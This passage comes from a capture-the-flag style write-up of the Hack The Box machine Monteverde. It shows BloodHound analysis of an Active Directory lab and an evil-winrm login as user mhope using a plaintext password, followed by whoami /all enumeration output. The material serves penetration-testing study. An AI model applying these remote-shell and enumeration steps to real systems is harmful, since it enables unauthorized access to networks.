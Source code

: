 I uploaded the collected data to **BloodHound** and queried for "Shortest Path to Domain Admins". Found that `mhope` has `CanPSRemote`, which means we can connect to the machine as `mhope`.

![Image Description](/images/Pasted%20image%2020250204224248.png)

I also enumerate some information available for `mhope`, and found that this user is part of the `Azure Admins` domain group.

###### WinRM as mhope
I connected to the machine with `mhope:4n0therD4y@n0th3r$` with **evil-winrm** and obtained the user flag.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/monteverde-windows]
└─$ evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mhope\Documents>
```

#### Shell as system
###### Shell enumeration
I run `whoami /all` to list all the information about the current user `mhope`. Rediscovered that this user is a part of the `Azure Admins` group, which should be interesting.

```
*Evil-WinRM* PS C:\Users\mhope\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ============================================
megabank\mhope S-1-5-21-391775091-850290835-3566037492-1601


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
```